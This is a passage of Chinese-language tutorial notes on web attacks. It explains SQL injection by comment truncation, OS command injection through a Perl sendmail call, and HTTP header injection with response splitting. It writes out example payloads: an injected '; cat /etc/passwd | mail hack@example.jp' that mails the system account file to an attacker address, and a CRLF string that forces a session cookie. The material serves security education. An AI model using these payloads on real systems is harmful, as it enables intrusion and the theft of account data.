 被修改的SQL语句：

> SELECT * FROM bookTbl WHERE author ='上野宣' - -' and flag=1; 

SQL语句中的 -- 之后全视为注释。即，and flag=1 这个条件被自动忽略了。 

- ###### OS 命令注入

OS 命令注入攻击（OS Command Injection）可以从 Web 应用中通过 Shell 来调用操作系统命令。倘若调用 Shell 时存在疏漏，就可以执行插入的非法 OS 命令。 

OS 命令注入攻击可以向 Shell 发送命令，让 Windows 或 Linux 操作系统的命令行启动程序。也就是说，通过 OS 注入攻击可执行 OS 上安装着的各种程序。 

正常处理网页上表单：

> my $adr = $q->param('mailaddress');
>
> open(MAIL, "| /usr/sbin/sendmail $adr");
>
> print MAIL "From: info@example.com\n"; 

程序中的 open 函数会调用 sendmail 命令发送邮件，而指定的邮件发送地址即 $adr 的值。 

攻击者将下面的值指定作为邮件地址。 

> ; cat /etc/passwd | mail hack@example.jp 

程序接收该值，构成以下的命令组合。 

> | /usr/sbin/sendmail **; cat /etc/passwd** | **mail hack@example.jp** 

攻击者的输入值中含有分号（;）。这个符号在 OS 命令中，会被解析为分隔多个执行命令的标记。 

可见，sendmail 命令执行被分隔后，接下去就会执行 cat/etc/passwd | mail hack@example.jp 这样的命令了。结果，含有Linux 账户信息 /etc/passwd 的文件，就以邮件形式发送给了 hack@example.jp。 

- ###### HTTP首部注入

攻击者通过在响应首部字段内插入换行，添加任意响应首部或主体的一种攻击。

向首部主体内添加内容的攻击称为 HTTP 响应截断攻击（HTTP Response Splitting Attack）。 

如下所示，Web 应用有时会把从外部接收到的数值，赋给响应首部字段 Location 和 Set-Cookie。 

> Location: http://www.example.com/a.cgi?q=**12345**
>
> Set-Cookie: UID=**12345**
>
> ＊12345就是插入值

- HTTP 首部注入攻击有可能会造成以下一些影响。
  - 设置任何 **Cookie** 信息
  - 重定向至任意 **URL**
  - 显示任意的主体（**HTTP** 响应截断攻击） 

攻击者以下面的内容替代之前的类别 ID 后发送请求。 

> 101**%0D%0ASet-Cookie:+SID=123456789**

其中，%0D%0A 代表 HTTP 报文中的换行符，紧接着的是可强制将攻击者网站（http://hackr.jp/）的会话 ID 设置成 SID=123456789 的 Set-Cookie 首部字段。发送该请求之后，假设结果返回以下响应。

> Location: http://example.com/?cat=101（%0D%0A ：换行符）Set-Cookie: SID=123456789 
